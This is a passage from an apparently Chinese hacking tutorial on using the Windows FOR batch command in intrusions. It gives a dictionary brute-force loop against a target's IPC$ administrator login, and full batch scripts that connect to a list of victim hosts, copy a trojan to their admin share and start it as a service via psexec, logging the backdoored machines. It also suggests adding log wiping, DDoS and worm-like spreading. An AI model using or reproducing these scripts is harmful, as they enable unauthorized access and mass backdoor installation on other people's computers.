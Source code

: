 在以上例子中，%I 和 PATH 可用其他有效数值代替。%~ 语法
用一个有效的 FOR 变量名终止。选取类似 %I 的大写变量名
比较易读，而且避免与不分大小写的组合键混淆。

以上是MS的官方帮助，下面我们举几个例子来具体说明一下For命令在入侵中的用途。

sample2：

利用For命令来实现对一台目标Win2k主机的暴力密码破解。
我们用net use \ipipc$ “password” /u:”administrator”来尝试这和目标主机进行连接，当成功时记下密码。
最主要的命令是一条：for /f i% in (dict.txt) do net use \ipipc$ “i%” /u:”administrator”
用i%来表示admin的密码，在dict.txt中这个取i%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－
for /f i%% in (dict.txt) do net use \ipipc$ “i%%” /u:”administrator”|find “:命令成功完成”&gt;&gt;D:ok.txt ，这样就ko了。

sample3：

你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。

主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 %%variable）
@for /f “tokens=1,2,3 delims= ” %%i in (victim.txt) do start call door.bat %%i %%j %%k
tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数%i %j %k。
而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的文件。
delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据%%i %%j %%k表示的对象来排列，一般就是 ip password username。
代码雏形：
————— cut here then save as a batchfile(I call it main.bat ) —————————
@echo off
@if “%1″==”" goto usage
@for /f “tokens=1,2,3 delims= ” %%i in (victim.txt) do start call IPChack.bat %%i %%j %%k
@goto end
:usage
@echo run this batch in dos modle.or just double-click it.
:end
————— cut here then save as a batchfile(I call it main.bat ) —————————

——————- cut here then save as a batchfile(I call it door.bat) —————————–
@net use \%1ipc$ %3 /u:”%2″
@if errorlevel 1 goto failed
@echo Trying to establish the IPC$ connection …………OK
@copy windrv32.exe\%1admin$system32 &amp;&amp; if not errorlevel 1 echo IP %1 USER %2 PWD %3 &gt;&gt;ko.txt
@psexec \%1 c:winntsystem32windrv32.exe
@psexec \%1 net start windrv32 &amp;&amp; if not errorlevel 1 echo %1 Backdoored &gt;&gt;ko.txt
:failed
@echo Sorry can not connected to the victim.
—————– cut here then save as a batchfile(I call it door.bat) ——————————–
这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究.

No.2

**二.如何在批处理文件中使用参数**
